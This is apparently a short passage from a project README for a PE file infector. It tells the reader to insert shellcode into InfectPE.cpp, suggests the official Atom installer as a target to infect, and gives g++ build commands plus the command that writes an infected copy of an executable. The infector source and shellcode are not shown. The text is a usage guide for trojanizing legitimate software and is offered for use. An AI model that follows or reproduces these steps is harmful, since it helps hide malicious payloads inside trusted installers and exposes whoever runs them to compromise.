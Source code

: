 ### Infect a file
Put the shellcode inside the infectPE.cpp (only accepts x86 executables). A posible option of executable file to infect is this [AtomInstaller](https://github.com/atom/atom/releases/download/v1.53.0/AtomSetup.exe)

```sh
> g++ -c PE.cpp -std=c++17
> g++ -c InfectPE.cpp -std=c++17
> g++ -o InfectPE.exe InfectPE.o PE.o
> .\InfectPE.exe .\executable_to_infect.exe .\executable_infected.exe
```